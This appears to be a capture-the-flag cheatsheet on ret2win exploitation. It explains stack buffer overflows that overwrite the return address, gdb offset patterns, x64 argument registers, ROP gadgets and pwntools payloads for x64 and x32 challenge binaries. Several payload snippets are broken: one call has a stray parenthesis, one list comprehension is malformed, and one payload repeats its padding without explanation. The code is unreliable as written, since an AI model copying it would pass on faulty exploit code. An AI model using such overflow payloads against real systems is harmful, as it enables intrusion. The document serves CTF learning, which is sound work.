 ret2win
---
> ret2win refers to challenges where overwriting the return address to a certain function will give the flag.

## x64
Basically if there's a win function in the binary, it has got to be ret2win. Most of the time, it'll be a buffer overflow to control the return address.

The stack may look like this:

```
Buffer                    RBP                       RBP + 8 (RIP)
+-------------------------+-------------------------+-------------------------+
| 41 41 41 41 41 41 41 41 | 00 00 00 00 00 00 00 00 | f5 91 53 13 00 00 00 00 |
+-------------------------+-------------------------+-------------------------+
````

To get the offset of RBP:

```
(gdb)
pattern create 100
r
pattern search $rbp
```

The goal is to overflow input into RBP + 8 (which holds the return address, and change its value to the return address of another function in the binary.
This can be achieved with pwntools via this:
```py
from pwn import *
with process("./binary") as p:
    offset = 8
    win = int(b"0x400df8", 16)
    p.sendline(b'A'*offset + p64(win)(
    p.interactive()
```

### Calling convention
If the win function requires specific parameters to pass, we need to make use of certain snippets of assembly in the program (known as gadgets) to modify the contents of the registers.

The 6 registers used for function parameters (x64) are:
1. RDI
2. RSI
3. RDX
4. RCX
5. R8
6. R9

When a function is called, it takes its parameters from these registers sequentially. Let's say we have a function win(username, password). The value of username is taken from RDI, and password from RSI. So, to control these 2, we need to find certain gadgets in the program that allow us to call them, pop a value from the top of the stack into a register, and return to another address.

To find these gadgets, we can make use of ROPgadget:

```bash
$ ROPgadget --binary ./<binary>

...
0x00000000004010a3 : pop rdi ; ret
0x00000000004010a1 : pop rsi ; pop r15 ; ret
...
```

What do the 2 gadgets above do? The first stores the top value in the stack into RDI, and returns to the address indicated by the second-top value. The second stores the top value into RSI, the second-top value into R15, and returns to the address indicated by the third-top value. Since we're interested in the first 2 registers (RDI and RSI) and not R15, our payload can look something like this:

```py
p.sendline(b'A'*offset + b'A'*offset + p64(0x4010a3) + p64(0xdeadbeef) + p64(0x4010a1) + p64(int([hex(i)[2:] for i in b'password', 16])) + p64(0) + p64(win))
#          offset        offset        1st gadget	   RDI value         2nd gadget      RSI value                                             R15      win function
```

## x32
For 32-bit, we want to control EIP instead. The offset can be easily found using gdb.

```
pattern create 100
r
pattern search $eip
```

The rest of the steps are pretty much similar to x64, so I won't overflow this cheatsheet.

### Calling convention
32-bit calling conventions are much easier to handle as compared to x64: they're all on the stack! This means that we don't need to deal with gadgets etc, which can be useful in some cases where the libc is not loaded into the binary, which means we have a lot less gadgets that we can use. For ret2win, we just need to push our desired values to the stack after calling our gadget/function.

For example:
```py
payload = b'A' * 1337 + p32(0x12345678) + p32(0xdeadbeef) + p32(0xcafebabe)
# 		  win function		first param		  second param and so on...
```

Note that if you want to chain functions after the function with arguments, you need to pop the TOS so that we don't
return to that undefined address. Any register is fine, eg: `pop ebp; ret`.

Another way is to add the 2nd function call between the 1st function and the 1st function's argument.

If your payload doesn't seem to work, try adding some padding between the function call and the argument.
